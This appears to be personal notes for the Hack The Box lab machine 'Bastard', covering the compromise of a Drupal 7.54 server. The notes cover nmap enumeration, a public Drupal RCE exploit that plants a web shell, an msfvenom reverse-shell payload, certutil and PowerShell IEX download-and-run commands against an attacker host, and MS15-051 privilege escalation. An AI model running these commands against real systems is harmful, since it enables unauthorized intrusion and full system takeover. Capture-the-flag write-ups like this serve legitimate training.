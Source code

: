 # Summary



## about target

tip:  10.129.118.26

hostname: bastard

Difficulty:  Medium



## about attack

+ drupal scan, check and note; powershell exe via web rce.
+ if your shell not able to execute winpeas, try powerup and Sherlock; 
+ if your shell have some unknown issues running ps1, try change. to nc





**attack note**

```bash
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
49154/tcp open  unknown

http 80
drupal 

/robots.txt found /changelog.txt
got version, drupal Drupal 7.54

exploit 
https://www.exploit-db.com/exploits/41564
https://vk9-sec.com/drupal-7-x-module-services-remote-code-execution/

got shell.
apt install php-curl   ## before exploit

change php exploit script, and run
php 41654.php

curl http://1.129.118.117/hacker.php?fexec=whoami

create payload
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$kip LPORT=4444  EXITFUNC=thread -f exe  -o shel4444.exe

download payload
python -m http.server 80

http://10.129.118.117/hacker.php?fexec=certutil%20-urlcache%20-split%20-f%20http://10.10.14.15/shel4444.exe
http://10.129.118.117/hacker.php?fexec=.\shel4444.exe

# local enum
whoami /all

SeimpersonatePrivilege enbaled.

reg query "HKLM\SOFTWARE\Microsoft\Net Framework Setup\NDP" /s

certutil -urlcache -split -f http://10.10.14.15/prts.exe

powerup enum, no permisstion to check service.
powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.15/PowerUp.ps1'); Invoke-AllChecks"

sherlock enum, wpeas not work. remember append Find-AllVulns to file. 
powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.15/Sherlock.ps1')"

## check via rce
http://10.129.118.118/hacker.php?fexec=echo%20IEX(New-Object%20Net.WebClient).DownloadString(%27http://10.10.14.15/Sherlock.ps1%27)%20|%20powershell%20-nop%20-
echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.15/Sherlock.ps1') | powershell -nop -

found vulns
ms10-092, ms15-051, ms16-032, 

ms15-051 exploit, https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS15-051/MS15-051-KB3045171.zip

cp ms15-051x64.exe ../exploit.exe
certutil -urlcache -split -f http://10.10.14.15/exploit.exe

exploit.exe cmd

## got system.
```







# Enumeration

## nmap scan

light scan

```bash
nmap -p- --min-rate=1000 -T4 -oN nmap.light $tip


```



Heavy scan

```bash
export port=$(cat nmap.light | grep ^[0-9] | cut -d "/" -f 1 | tr "\n" "," | sed s/,$//)
sudo nmap -A -O -p$port -sC -sV -T4 -oN nmap.heavy $tip


```



## http enum



![image-20220924003553547](./images/image-20220924003553547.png)







# Exploitation



![image-20220924003920650](./images/image-20220924003920650.png)





![image-20220924003942131](./images/image-20220924003942131.png)



![image-20220924004055582](./images/image-20220924004055582.png)



![image-20220924004920191](./images/image-20220924004920191.png)







# Privesc



## Post Enumeration





## System



![image-20220924023328429](./images/image-20220924023328429.png)



## proof

```bash


```



![image-20220924023516374](./images/image-20220924023516374.png)

